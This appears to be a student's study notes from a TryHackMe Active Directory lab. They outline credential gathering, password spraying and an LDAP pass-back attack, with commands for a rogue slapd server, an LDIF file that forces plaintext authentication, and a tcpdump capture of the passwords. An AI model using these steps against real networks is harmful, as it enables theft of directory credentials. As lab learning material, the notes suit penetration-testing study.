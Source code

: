 
## Initial steps

add dns address for the root DC to the ipv4 settings in advanced network configuration

- Network Manager -> Advanced Network Configuration -> Your Connection -> IPv4 Settings
- Set your DNS IP here to the IP for THMDC in the network diagram above  
- Add another DNS such as 1.1.1.1 or similar to ensure you still have internet access
- Run `sudo systemctl restart NetworkManager` and test your DNS similar to the steps above

## Gaining Credentials

OSINT - stackoverflow, github, havibeenpwned, dehashed

Phishing

## NTLM Authentication

bruteforce attacks/password spraying

AD will user lock out on too many failed attempts so we use password spraying
password-spraying - one password tested with an email list


## LDAP Bind Credentials

with ldap the application directly verifies user credentials
ldap is popular with third party non-microsoft applications that integrate with AD

### LDAP pass-back attacks

LDAP Pass-back attacks can be performed when we gain access to a device's configuration where the LDAP parameters are specified like a printers /settings in the web portal.

we change the ip of the ldap server in the network device settings (like a printer) to our own server in order to get a network device to attempt to authenticate through ldap with our machine to get the configuration or password details of the ldap.


#### Running Rogue ldap server

test ldap with nc -nvlp 389, check repsonse and then attempts steps below

1. `sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
2. `sudo dpkg-reconfigure -p low slapd`
	1. no - to omit
	2. root domain on dns 
	3. root domain of dns
	4. password
	5. password
	6. mdb (if presented)
	7. no to purged
	8. yes to move old database
4. create a new ldif file (below) to ensure the ldap server is vulnerable so we can recieve password in clear text - it downgrades the security mechanisms for authorization
5. patch the service `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`
6. `ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanismns` verify patch
7. `sudo tcpdump -SX -i interface_name tcp port 389` - get clear text password

#### ldif file (copy and past into olcSaslSecProps.ldif)
\#olcSaslSecProps.ldif 
dn: cn=config 
replace: olcSaslSecProps 
olcSaslSecProps: noanonymous,minssf=0,passcred
